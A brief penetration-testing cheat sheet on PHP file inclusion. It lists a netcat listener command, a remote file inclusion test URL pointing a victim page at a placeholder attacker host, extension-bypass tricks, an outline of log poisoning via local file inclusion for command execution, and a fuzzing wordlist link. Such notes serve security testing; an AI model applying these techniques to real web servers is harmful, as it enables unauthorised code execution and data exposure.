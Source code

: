 # File Inclusion

## Test for RFI

Setting up listener:

```
$ sudo nc -nlvp 80
```

Testing for RFI:

```
http://victim/page.php?file=http://attacker/test.txt
```

Check if Netcat listener caught a request.

## Bypass File Extensions

* Null byte (%00), for older PHP versions
* Question mark (?), for RFI

## LFI: Contaminating Log File To Get Command Exec

* Inject payload (command execution) in log file
* Exploit LFI by calling the log file

## Fuzzing

[https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
